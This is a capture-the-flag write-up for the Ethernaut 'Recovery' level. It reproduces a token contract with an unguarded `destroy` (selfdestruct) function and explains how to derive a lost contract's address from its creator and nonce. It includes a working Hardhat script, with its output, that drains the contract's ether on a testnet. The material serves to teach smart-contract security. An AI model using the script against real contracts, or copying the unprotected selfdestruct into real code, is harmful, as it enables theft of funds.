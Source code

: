 ```yaml
---
title: Ethernaut \#17 Recovery
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Recovery challenge writeup
---
```


## Recovery

### Challenge

A contract creator has built a very simple token factory contract. Anyone can create new tokens with ease. After deploying the first token contract, the creator sent `0.001` ether to obtain more tokens. They have since lost the contract address.

This level will be completed if you can recover (or remove) the `0.001` ether from the lost contract address.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Recovery {

  //generate tokens
  function generateToken(string memory _name, uint256 _initialSupply) public {
    new SimpleToken(_name, msg.sender, _initialSupply);
  
  }
}

contract SimpleToken {

  using SafeMath for uint256;
  // public variables
  string public name;
  mapping (address => uint) public balances;

  // constructor
  constructor(string memory _name, address _creator, uint256 _initialSupply) public {
    name = _name;
    balances[_creator] = _initialSupply;
  }

  // collect ether in return for tokens
  receive() external payable {
    balances[msg.sender] = msg.value.mul(10);
  }

  // allow transfers of tokens
  function transfer(address _to, uint _amount) public { 
    require(balances[msg.sender] >= _amount);
    balances[msg.sender] = balances[msg.sender].sub(_amount);
    balances[_to] = _amount;
  }

  // clean up after ourselves
  function destroy(address payable _to) public {
    selfdestruct(_to);
  }
}
```

### Background

There is not much new stuff going on here. The main difficulty here is to identify the address of the `SimpleToken` contract that was created from the `Recovery` contract. This can be done manually using the block explorer.

#### Edit

After finishing the challenge and reading the success message I relized that I missed one step that could simplify things a bit. The address of a new contract instance can be computed using `keccack256(address, nonce)` where the `address` is the address of the contract that instiates them, and `nonce` is an incremental value. This is the case because the contract is created using the `create` opcode.

There is also another opcode, `create2`, which uses another way to generate the `address` such that it is predictable.

### Attack

Going through the block explorer its easy to find the contract that was created by the `Recovery` contract. This contract must be a `SimpleToken` contract and is the one we are looking for. The next step is simply to call the `destroy` function with the attacker account address to get the contract funds.

* Check the `Recovery` contract transactions [here](https://rinkeby.etherscan.io/address/0x8fa7f6be7f007f88d80cc7d95a30e53343967238#internaltx)
* Find the `SimpleToken` contract [here](https://rinkeby.etherscan.io/address/0xbfb528f5fe26e884621cfd14e3e72fefabd1767c)
* Call the `destroy` function with the attack account address as argument on the `SimpleToken` contract

#### Edit

Instead of doing the first two steps we could simply use `keccack256(address, nonce)` with the `address` of the `Recovery` contract and a `nonce` of `1`.

#### recovery-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    recoveryAddress = "0x8Fa7f6be7f007F88D80cC7D95a30e53343967238";
    // contract = await ethers.getContractAt("Recovery", recoveryAddress);

    // this address was manually found using the block explorer
    // simpleTokenAddress = "0xbFB528f5Fe26E884621cfD14e3E72fEfABd1767c";

    // =================== Edit ===================
    // calculate the contract address
    simpleTokenAddress = ethers.utils.hexDataSlice(
        ethers.utils.keccak256(
            ethers.utils.RLP.encode(
                [recoveryAddress, "0x01"]
            )
        ), 12, 32)
    // ============================================

    contract = await ethers.getContractAt("SimpleToken", simpleTokenAddress);

    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    console.log("Level address  : " + contract.address)
    console.log("Token Name     : " + await contract.name())

    // // get current balance
    console.log("Current Balance: " + await ethers.provider.getBalance(account.address))

    // trigger selfdestruct and return funds to account.address
    tx = await contract.connect(account).destroy(account.address)
    receipt = await tx.wait()

    // get new balance
    console.log("New Balance    : " + await ethers.provider.getBalance(account.address))

}

// We recommend this pattern to be able to use async/await everywhere
// and properly handle errors.
main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/recovery-solve.js --network rinkeby
Level address  : 0xbFB528f5Fe26E884621cfD14e3E72fEfABd1767c
Token Name     : InitialToken
Current Balance: 137075271261352909
New Balance    : 137862327261352909
```

### Success Message

Contract addresses are deterministic and are calculated by `keccack256(address, nonce)` where the address is the `address` of the contract (or ethereum address that created the transaction) and nonce is the number of contracts the spawning contract has created (or the transaction `nonce`, for regular transactions).

Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.

An interesting [blog post](http://martin.swende.se/blog/Ethereum_quirks_and_vulns.html) by Martin Swende details potential use cases of this.

If you're going to implement this technique, make sure you don't miss the nonce, or your funds will be lost forever.
